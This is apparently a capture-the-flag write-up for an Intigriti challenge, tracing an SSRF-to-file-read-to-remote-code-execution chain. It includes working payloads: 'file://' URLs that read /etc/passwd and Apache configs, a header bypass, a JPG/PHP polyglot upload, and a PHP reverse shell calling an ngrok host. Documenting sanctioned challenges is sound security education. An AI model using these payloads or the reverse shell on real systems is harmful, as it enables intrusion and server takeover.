


+++
title = 'Intigriti | Challenge 1025 Writeup'
date = 2025-10-14T00:00:00-01:00
draft = false
tags = ['SSRF','LFI','RCE']
description = "An SSRF → LFI → RCE chain that yields full compromise. This write‑up documents both the unintended path to the flag and the canonical solution."
+++

Intigriti's October challenge 1025 was a really cool one, leveraging SSRF, local file inclusion, and RCE. I first found the flag in an unintended manner, and then worked my way into finding the RCE, popping that shell and flagging again! 

Kudos to [@chux](https://x.com/chux13786509) for this fun challenge ^.^

## Unintended Solution
We first have a panel where we can input the URL of an image and the app goes off to fetch it. Sounds innocent, right? In reality that panel will fetch any URL you give it. Indeed, under the hood the backend just runs a curl request with the supplied URL (and in our case it does not even check that the result is an image). That means we are not handing the server an _image_ so much as handing it an instruction: _go ask that address for me._

So… what’s the first thing that comes to one’s minds when they see that? **Server-Side Request Forgery (SSRF)**, because this app will happily make requests on our behalf to places we might not be able to reach directly.

We will try to exploit that to read local files to the server. We set the input to `file:///etc/passwd`, but obtained the error `Invalid URL: must include 'http'`:


Hence, we tried using `file:///etc/passwd?http` and this yielded the content of `/etc/passwd`, so the SSRF worked perfectly.


Using this, we explored the file system looking for the flag, and used the input `file:///?http` to list the content of the `/` directory.



There, we noticed a file with a random name, the `93e892fe-c0af-44a1-9308-5a58548abd98.txt`, and when fetching its content using the input `file:///93e892fe-c0af-44a1-9308-5a58548abd98.txt?http`, we got the flag : **INTIGRITI{ngks896sdjvsjnv6383utbgn}**


But as the challenge requirements mentioned the necessity of leveraging an RCE, we are not finished yet ;)

## Real Solution
Our goal is to pop a shell, so let's proceed to achieving that. We first inspect the files in the current directory using the input `file:///proc/self/cwd/?http`. We obtain five files as underlined in the screenshot below : 


Upon inspection, the one that might be the most interesting in our case is the `upload_shoppix_images.php`, as it allows uploading files to the server given the following code :
```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $file = $_FILES['image'];
        $filename = $file['name'];
        $tmp = $file['tmp_name'];
        $mime = mime_content_type($tmp);

        if (
            strpos($mime, "image/") === 0 &&
            (stripos($filename, ".png") !== false ||
            stripos($filename, ".jpg") !== false ||
            stripos($filename, ".jpeg") !== false)
        ) {
            move_uploaded_file($tmp, "uploads/" . basename($filename));
            echo "<p style='color:#00e676'>✅ File uploaded successfully to /uploads/ directory!</p>";
        } else {
            echo "<p style='color:#ff5252'>❌ Invalid file format</p>";
        }
}
?>
```

Nevertheless, when trying to access it via `https://challenge-1025.intigriti.io/upload_shoppix_images.php`, we obtain a 403 Forbidden error. 

Hence, let's check the Apache configuration to see how the server actually works. We first check the file `/etc/apache2/apache2.conf` by setting the input to `file:///etc/apache2/apache2.conf?http`, and we observe that it includes the configurations in the directory `sites-enabled` given these lines : 
```bash
# Include the virtual host configurations:
IncludeOptional sites-enabled/*.conf
```
We check the content of that directory and observe that there is only one configuration file `000-default.conf`.


Let's check its content. 
```xml
<VirtualHost *:8080>
    DocumentRoot /var/www/html

    <Directory /var/www/html>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>

    <Directory /var/www/html/uploads>
        Options -Indexes
    </Directory>

    <Directory /var/www/html/public>
        Options -Indexes
    </Directory>

    <Files "upload_shoppix_images.php">
        <If "%{HTTP:is-shoppix-admin} != 'true'">
            Require all denied
        </If>
        Require all granted
    </Files>
</VirtualHost>
```

Given the rule :
```xml
<Files "upload_shoppix_images.php">
    <If "%{HTTP:is-shoppix-admin} != 'true'">
        Require all denied
    </If>
    Require all granted
</Files>
```
we should be able to access `https://challenge-1025.intigriti.io/upload_shoppix_images.php` by setting a header `is-shoppix-admin: true` in our request `is-Shoppix-Admin: true`. Upon testing, this proves to give us the webpage we want. 





Our goal now is to upload a reverse shell in the application, nevertheless, we need to upload a file that verifies these conditions :
```php
strpos($mime, "image/") === 0 &&
(stripos($filename, ".png") !== false ||
stripos($filename, ".jpg") !== false ||
stripos($filename, ".jpeg") !== false)
```
so basically, we need to upload a file such that : 
- The MIME type starts with `image/`
- The filename contains `.png`, `.jpg`, or `.jpeg` (case-insensitive)

To do so, we can just create a 1*1 JPG, append our PHP code to it and upload it to the server. Upon accessing it directly in the `/uploads`, our code will be executed and we will obtain our shell. Let's do that.

### PoC

1. We create the 1*1 JPG using the following bash oneliner : 
```bash
printf '%s' '/9j/4AAQSkZJRgABAQEASABIAAD/2wBDAP//////////////////////////////////////////////////////////////////////////////////////2wBDAf//////////////////////////////////////////////////////////////////////////////////////wAARCAABAAEDASIAAhEBAxEB/8QAFQABAQAAAAAAAAAAAAAAAAAAAAX/xAAUEAEAAAAAAAAAAAAAAAAAAAAA/8QAFQEBAQAAAAAAAAAAAAAAAAAAAwT/xAAUEQEAAAAAAAAAAAAAAAAAAAAA/9oADAMBAAIRAxEAPwCfAAf/2Q==' | base64 -d > tiny.jpg
```

2. We create our reverse shell in `test.php` :
```php
<?php 
$sock=fsockopen("6.tcp.eu.ngrok.io",11347);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>
```

3. We concatenate both files in a final one `test.jpg.php` and upload the latter to the server: 
```bash
cat tiny.jpg test.php > test.jpg.php
curl -X POST -F "image=@test.jpg.php" -H "is-shoppix-admin: true" https://challenge-1025.intigriti.io/upload_shoppix_images.php
```
We obtain a response containing : `<p style='color:#00e676'>✅ File uploaded successfully to /uploads/ directory!</p>  </div>`. Hence, our file was successfully uploaded. Let's check it on `https://challenge-1025.intigriti.io/uploads/test.jpg.php` in the browser. 
Once we do that, we successfully receive the connexion back and obtain our shell.

Finally, we just need to find the flag as we showcase in the screenshot below : 


Again, our flag is **INTIGRITI{ngks896sdjvsjnv6383utbgn}**!  